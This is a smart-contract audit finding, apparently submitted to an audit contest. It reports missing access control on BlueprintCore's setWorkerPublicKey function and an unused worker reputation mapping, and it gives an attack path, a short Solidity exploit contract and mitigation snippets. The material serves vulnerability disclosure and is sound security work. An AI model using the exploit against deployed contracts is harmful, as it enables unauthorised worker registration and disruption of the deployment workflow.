 Uneven Gingerbread Ladybug

High

# Unrestricted Worker Registration and Unused Reputation System

### Summary

The `setWorkerPublicKey` function in BlueprintCore allows any address to register as a worker without permission checks or validation. Additionally, the contract defines a `workerReputation` mapping that is never used throughout the contract, indicating either incomplete or abandoned functionality. This issue could potentially allow malicious actors to register as workers, enabling them to participate in the deployment workflow, potentially accepting deployment requests or submitting fraudulent deployment proofs.

### Root Cause

The vulnerability stems from two design flaws:

1. The [`setWorkerPublicKey`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L689) function lacks access controls, allowing any address to call it and register as a worker.
2. The reputation system, which could have provided a defense-in-depth mechanism, is defined but never implemented.
```solidity
// @audit ayone can register as a worker
// @audit workerreputation mapping is not used
function setWorkerPublicKey(bytes calldata publicKey) public {
    if (workersPublicKey[msg.sender].length == 0) {
        workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
    }

    workersPublicKey[msg.sender] = publicKey;
}
```

### Internal Pre-conditions

- The function must be publicly accessible (it is).
- No authorization modifiers are applied to the function.
- The contract must maintain a list of workers with special privileges.


### External Pre-conditions

- An attacker needs an Ethereum address with enough ETH to pay for gas.
- No additional prerequisites are needed, as the function allows direct registration.

### Attack Path

1. An attacker identifies the BlueprintCore contract.
2. They call `setWorkerPublicKey()` with any arbitrary bytes as the publicKey parameter.
3. If this is the first time the attacker's address is registering, they're added to `workerAddressesMp[WORKER_ADDRESS_KEY].`
4. The attacker's address is now registered as a worker in the system.
5. The attacker can now interact with worker-specific functionalities in the contract.

### Impact

- **Privilege Escalation:** Unauthorized actors can register as workers, gaining special privileges.
- **Deployment Manipulation:** Workers can submit deployment requests and proofs, potentially disrupting legitimate deployment processes.
- **Architectural Bypass:** The system's worker-based security model is effectively bypassed.
- **Reputation System Weakness:** The absence of a functioning reputation system prevents quality control of workers.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBlueprintCore {
    function setWorkerPublicKey(bytes calldata publicKey) external;
    function getWorkerAddresses() external view returns (address[] memory);
}

contract WorkerRegistrationExploit {
    function exploit(address blueprintCore) external {
        // Any address can register as a worker
        bytes memory fakePublicKey = abi.encodePacked("malicious_key");
        IBlueprintCore(blueprintCore).setWorkerPublicKey(fakePublicKey);
        
        // Verify registration was successful
        address[] memory workers = IBlueprintCore(blueprintCore).getWorkerAddresses();
        bool registered = false;
        for (uint i = 0; i < workers.length; i++) {
            if (workers[i] == address(this)) {
                registered = true;
                break;
            }
        }
        require(registered, "Worker registration failed");
    }
}
```

### Mitigation

1. Implement Access Control:
```solidity
// Add role-based access control
bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");

function setWorkerPublicKey(bytes calldata publicKey) public {
    require(hasRole(ADMIN_ROLE, msg.sender) || isApprovedWorker(msg.sender), 
            "Caller is not authorized to register workers");
    
    if (workersPublicKey[msg.sender].length == 0) {
        workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
    }
    workersPublicKey[msg.sender] = publicKey;
}
```
2. Implement Worker Reputation System:
```solidity
// Use the existing mapping
function updateWorkerReputation(address worker, uint256 score) public onlyAdmin {
    workerReputation[worker] = score;
}

function getWorkerReputation(address worker) public view returns (uint256) {
    return workerReputation[worker];
}

// Require minimum reputation for critical operations
function submitProofOfDeployment(...) public {
    require(workerReputation[msg.sender] >= MIN_REPUTATION, "Worker reputation too low");
    // Existing functionality...
}
```
3. Worker Whitelisting:
```solidity
mapping(address => bool) public approvedWorkers;

function approveWorker(address worker) public onlyAdmin {
    approvedWorkers[worker] = true;
}

function revokeWorker(address worker) public onlyAdmin {
    approvedWorkers[worker] = false;
}

function setWorkerPublicKey(bytes calldata publicKey) public {
    require(approvedWorkers[msg.sender], "Worker not approved");
    // Existing functionality...
}
```
**These improvements would significantly enhance the security model by ensuring only authorized entities can register as workers and by implementing the reputation system to control worker privileges based on performance.**
